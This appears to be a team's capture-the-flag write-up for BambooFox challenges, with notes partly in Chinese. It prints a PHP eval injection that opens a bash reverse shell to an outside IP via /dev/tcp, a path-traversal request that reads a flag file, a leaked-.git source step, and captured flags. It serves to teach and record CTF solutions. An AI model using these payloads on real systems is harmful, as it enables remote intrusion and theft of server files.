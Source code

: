 ## Warmup (Solved)

:::success
flag sent by: soyccan
BAMBOOFOX{d22a508c497c1ba84fb3e8aab238a74e}
:::
```php
 <?php

    highlight_file(__FILE__);

    if ($x = @$_GET['x'])
        eval(substr($x, 0, 5));
```
- 雖然只吃前5個字元，但可以利用 eval 遞迴代入 $x，讓 $x 的指令被執行
- \`$x\`; 剛好5個字元
    - 讓 \$x =
```
`$x`; bash -c 'bash -i < /dev/tcp/140.112.196.228/12345 >&0'
```
- 拿到 reversed shell -> `cat secret.php`

exploit:
```
curl http://ctf.bamboofox.cs.nctu.edu.tw:8003/ \
--get --data-urlencode \
"x=\`\$x\`; bash -c 'bash -i < /dev/tcp/140.112.196.228/12345 >&0'"
```

## HAPPY (Solved)

:::success
flag sent by: wildfoot
BAMBOOFOX{251d19bd7cb60e72a3825d898bffcee5}
:::
* pwn
發現 curl 和 browser 都會把 `/../index.html` 自動 filter 成 `/index.html`，所以要手動送 HTTP header
另外要注意 `read_req_path_start` 中，`PATH`是要讀到 `0x20(AL)` (scasb指令) 所以最後記得給他一個 `SPACE`
![](https://i.imgur.com/qCp9K75.png)

`GET /../../../../../../home/web/flags/flag1.txt `
![](https://i.imgur.com/fVyBPmL.png)

## NEW
- 先利用 leak 的 .git 把 source 抓下來 (idea from chiffon_cake)

![](https://i.imgur.com/zaFjIia.png)
```
[pid 365963] write(1, "uid=0(root) gid=0(root) groups=0"..., 39uid=0(root) gid=0(root) groups=0(root)
[pid 372940] write(4, "<!DOCTYPE HTML>\n<html>\n<head>\n  "..., 118) = 118
```
```
cat /proc/590872/maps
00400000-00401000 r-xp 00000000 08:01 3943856      /server_soyccan.out
00600000-00601000 rwxp 00000000 08:01 3943856      /server_soyccan.out
7ffdc96ee000-7ffdc970f000 rwxp 00000000 00:00 0    [stack]
7ffdc979e000-7ffdc97a1000 r--p 00000000 00:00 0    [vvar]
7ffdc97a1000-7ffdc97a2000 r-xp 00000000 00:00 0    [vdso]
```
```
00400000-00402000 r-xp 00000000 08:01 3941840      /server.out
00402000-00403000 rwxp 00002000 08:01 3941840      /server.out
7fffe5f39000-7fffe5f5a000 rwxp 00000000 00:00 0    [stack]
```